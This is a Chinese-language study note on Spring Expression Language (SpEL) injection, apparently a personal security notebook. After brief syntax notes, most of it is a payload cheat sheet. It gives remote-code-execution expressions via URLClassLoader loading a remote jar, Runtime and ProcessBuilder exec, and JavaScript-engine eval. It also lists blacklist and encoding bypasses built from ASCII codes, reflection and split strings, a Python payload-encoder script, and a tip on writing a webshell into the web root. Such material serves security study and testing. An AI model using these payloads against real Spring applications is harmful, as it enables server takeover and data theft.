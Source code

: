 ## 基本语法
### 定界符
SpEL使用`#{}`作为定界符，所有在大括号中的字符都将被认为是SpEL表达式，在其中可以使用SpEL运算符、变量、引用bean及其属性和方法等
`#{}`和`${}`的区别：

- `#{}`就是SpEL的定界符，用于指明内容未SpEL表达式并执行；
- `${}`主要用于加载外部属性文件中的值；
- 两者可以混合使用，但是必须`#{}`在外面，`${}`在里面，如`#{'${}'}`，注意单引号是字符串类型才添加的；
### 类类型表达式
`T(Type)`运算符会调用类的作用域和方法。换句话说，就是可以通过该类类型表达式来操作类。
使用特殊的`T`运算符来指定`java.lang.Class`的实例(类型)。静态方法也是通过使用这个操作符来调用
`java.lang`中类型的`T()`引用不需要使用全限定名，但是其他包中的类，必须使用全限定名
### 变量
`#this`变量引用当前的评估对象(根据该评估对象解析非限定引用)。

`#root`变量总是被定义并引用根上下文对象。虽然#this可能会随着表达式的组成部分的计算而变化，但是`#root`总是指根

### Bean
要访问工厂bean本身，应该在bean名称前加上`&`符号

## 基本原理
![](attachments/Pasted%20image%2020240404113556.png)

### 条件
- 使用StandardEvaluationContext
- 未对输入的SpEL进行校验
- 对表达式调用了getValue()或setValue()方法
## RCE
### UrlClassLoader
>URLClassLoader 可以加载远程类库和本地路径的类库

```java
new java.net.URLClassLoader(new java.net.URL[]{new java.net.URL("http://127.0.0.1:8999/Exp.jar")}).loadClass("Exp").getConstructors()[0].newInstance("127.0.0.1:2333")
```


#### 内置对象加载UrlClassLoader

```JAVA
# POC_1
{request.getClass().getClassLoader().loadClass(\"java.lang.Runtime\").getMethod(\"getRuntime\").invoke(null).exec(\"touch/tmp/foobar\")}
#POC_2
username[#this.getClass().forName("javax.script.ScriptEngineManager").newInstance().getEngineByName("js").eval("java.lang.Runtime.getRuntime().exec('xterm')")]=asdf
```

在POC_1使用了request对象。request、response对象，项目如果引入了spel的依赖，那么这两个对象会自动被注册进去，它调用的是UrlClassLoader

在POC_2中使用了this关键字，加载的也是UrlClassLoader
### AppClassLoader
>AppClassLoader 直接面向用户,它会加载 Classpath 环境变量里定义的路径中的 jar 包和目录
由于双亲委派的存在,它可以加载到我们想要的类


#### Runtime
```java
T(ClassLoader).getSystemClassLoader().loadClass("java.lang.Runtime").getRuntime().exec("open /System/Applications/Calculator.app")
```
#### ProcessBuilder
```java
T(ClassLoader).getSystemClassLoader().loadClass("java.lang.ProcessBuilder").getConstructors()[1].newInstance(new String[]{"open","/System/Applications/Calculator.app"}).start()
```

#### 其他类的AppClassLoader

```JAVA
T(org.springframework.expression.Expression).getClass().getClassLoader()
```

```JAVA
T(org.thymeleaf.context.AbstractEngineContext).getClass().getClassLoader()
```

```JAVA
T(com.ctf.controller.Demo).getClass().getClassLoader()
```


## Bypass
### 字符串Bypass
#### T(类名).getName()
`[[${T(String).getName()}]]`结果为java.lang.String，利用replace来完成替换

```JAVA
[[${T(String).getName()[0].replace(106,119)+T(String).getName()[0].replace(106,117)+T(String).getName()[0].replace(106,109)+T(String).getName()[0].replace(106,48)+T(String).getName()[0].replace(106,110)+T(String).getName()[0].replace(106,115)+T(String).getName()[0].replace(106,114)}]]
# 为wumnster
```

#### Character类构造字符串

```JAVA
[[${T(Character).toString(119)+T(Character).toString(117)+T(Character).toString(109)+T(Character).toString(48)+T(Character).toString(110)+T(Character).toString(115)+T(Character).toString(114)}]]
```

#### 外部可控字符绕过
##### GET、POST方法
```JAVA
# POST
#request.getMethod().substring(0,1).replace(80,119)%2b#request.getMethod().substring(0,1).replace(80,117)
# GET
#request.getMethod().substring(0,1).replace(71,119)%2b#request.getMethod().substring(0,1).replace(71,117)
```

##### cookie
```JAVA
[[${#request.getRequestedSessionId()}]]
```

#### 脚本
CreateAscii.py，用于String类动态生成字符的字符ASCII码转换生成：
```PYTHON
message = input('Enter message to encode:')  
   
print('Decoded string (in ASCII):\n')  
   
print('T(java.lang.Character).toString(%s)' % ord(message[0]), end="")  
for ch in message[1:]:  
   print('.concat(T(java.lang.Character).toString(%s))' % ord(ch), end=""),   
print('\n')  
   
print('new java.lang.String(new byte[]{', end=""),  
print(ord(message[0]), end="")  
for ch in message[1:]:  
   print(',%s' % ord(ch), end=""),   
print(')}')
```
#### 其他师傅的Bypass整理

```JAVA
// 当执行的系统命令被过滤或者被URL编码掉时，可以通过String类动态生成字符，Part1  
// byte数组内容的生成后面有脚本  
new java.lang.ProcessBuilder(new java.lang.String(new byte[]{99,97,108,99})).start()  
  
// 当执行的系统命令被过滤或者被URL编码掉时，可以通过String类动态生成字符，Part2  
// byte数组内容的生成后面有脚本  
T(java.lang.Runtime).getRuntime().exec(T(java.lang.Character).toString(99).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(108)).concat(T(java.lang.Character).toString(99)))  
  
// JavaScript引擎通用PoC  
T(javax.script.ScriptEngineManager).newInstance().getEngineByName("nashorn").eval("s=[3];s[0]='cmd';s[1]='/C';s[2]='calc';java.la"+"ng.Run"+"time.getRu"+"ntime().ex"+"ec(s);")  
  
T(org.springframework.util.StreamUtils).copy(T(javax.script.ScriptEngineManager).newInstance().getEngineByName("JavaScript").eval("xxx"),)  
  
// JavaScript引擎+反射调用  
T(org.springframework.util.StreamUtils).copy(T(javax.script.ScriptEngineManager).newInstance().getEngineByName("JavaScript").eval(T(String).getClass().forName("java.l"+"ang.Ru"+"ntime").getMethod("ex"+"ec",T(String[])).invoke(T(String).getClass().forName("java.l"+"ang.Ru"+"ntime").getMethod("getRu"+"ntime").invoke(T(String).getClass().forName("java.l"+"ang.Ru"+"ntime")),new String[]{"cmd","/C","calc"})),)  
  
// JavaScript引擎+URL编码  
// 其中URL编码内容为：  
// 不加最后的getInputStream()也行，因为弹计算器不需要回显  
T(org.springframework.util.StreamUtils).copy(T(javax.script.ScriptEngineManager).newInstance().getEngineByName("JavaScript").eval(T(java.net.URLDecoder).decode("%6a%61%76%61%2e%6c%61%6e%67%2e%52%75%6e%74%69%6d%65%2e%67%65%74%52%75%6e%74%69%6d%65%28%29%2e%65%78%65%63%28%22%63%61%6c%63%22%29%2e%67%65%74%49%6e%70%75%74%53%74%72%65%61%6d%28%29")),)  
  
// 黑名单过滤".getClass("，可利用数组的方式绕过，还未测试成功  
''['class'].forName('java.lang.Runtime').getDeclaredMethods()[15].invoke(''['class'].forName('java.lang.Runtime').getDeclaredMethods()[7].invoke(null),'calc')  
  
// JDK9新增的shell，还未测试  
T(SomeWhitelistedClassNotPartOfJDK).ClassLoader.loadClass("jdk.jshell.JShell",true).Methods[6].invoke(null,{}).eval('whatever java code in one statement').toString()
```


```JAVA
// 转自：https://www.jianshu.com/p/ce4ac733a4b9  
  
${pageContext} 对应于JSP页面中的pageContext对象（注意：取的是pageContext对象。）  
  
${pageContext.getSession().getServletContext().getClassLoader().getResource("")}   获取web路径  
  
${header}  文件头参数  
  
${applicationScope} 获取webRoot  
  
${pageContext.request.getSession().setAttribute("a",pageContext.request.getClass().forName("java.lang.Runtime").getMethod("getRuntime",null).invoke(null,null).exec("命令").getInputStream())}  执行命令  
  
  
// 渗透思路：获取webroot路径，exec执行命令echo写入一句话。  
  
<p th:text="${#this.getClass().forName('java.lang.System').getProperty('user.dir')}"></p>   //获取web路径
```
## 参考资料
[Spring-SpEL表达式超级详细使用全解-CSDN博客](https://blog.csdn.net/A_art_xiang/article/details/134370029)

[SpEL注入RCE分析与绕过 - 先知社区 (aliyun.com)](https://xz.aliyun.com/t/9245?time__1311=n4%2BxuDgD9DyDRGCDCD0DBMb7e5xhDf2GxlrD&alichlgref=https%3A%2F%2Fwww.bing.com%2F#toc-2)

[一文详解SpEL表达式注入漏洞 - 知乎 (zhihu.com)](https://zhuanlan.zhihu.com/p/608190489#:~:text=%E4%B8%80%E6%96%87%E8%AF%A6%E8%A7%A3SpEL%E8%A1%A8%E8%BE%BE%E5%BC%8F%E6%B3%A8%E5%85%A5%E6%BC%8F%E6%B4%9E%201%201%20SpEL%E8%A1%A8%E8%BE%BE%E5%BC%8F%E4%BB%8B%E7%BB%8D%20Spring%E8%A1%A8%E8%BE%BE%E5%BC%8F%E8%AF%AD%E8%A8%80%EF%BC%88Spring%20Expression%20Language%EF%BC%8CSpEL%EF%BC%89%E6%98%AF%20Spring,Function%20SpEL%E6%B3%A8%E5%85%A5%E6%BC%8F%E6%B4%9E%20...%204%204%20%E6%A3%80%E6%B5%8B%E4%B8%8E%E9%98%B2%E5%BE%A1%E6%89%8B%E6%AE%B5%20%EF%BC%881%EF%BC%89%E5%AF%B9%E4%BA%8ESpEL%E8%A1%A8%E8%BE%BE%E5%BC%8F%E6%B3%A8%E5%85%A5%E6%BC%8F%E6%B4%9E%E6%BC%8F%E6%B4%9E%EF%BC%8C%E5%8F%AF%E4%BB%A5%E4%BD%BF%E7%94%A8%E9%9D%99%E6%80%81%E5%88%86%E6%9E%90%E5%B7%A5%E5%85%B7%E8%BF%9B%E8%A1%8C%E4%BB%A3%E7%A0%81%E6%A3%80%E6%9F%A5%EF%BC%8C%E5%8F%AF%E4%BB%A5%E6%9C%89%E6%95%88%E8%A7%84%E9%81%BF%E9%83%A8%E5%88%86%E9%97%AE%E9%A2%98%E3%80%82%20)

[SpEL表达式注入漏洞总结 [ Mi1k7ea ]](https://www.mi1k7ea.com/2020/01/10/SpEL%E8%A1%A8%E8%BE%BE%E5%BC%8F%E6%B3%A8%E5%85%A5%E6%BC%8F%E6%B4%9E%E6%80%BB%E7%BB%93/#PoC-amp-Bypass%E6%95%B4%E7%90%86)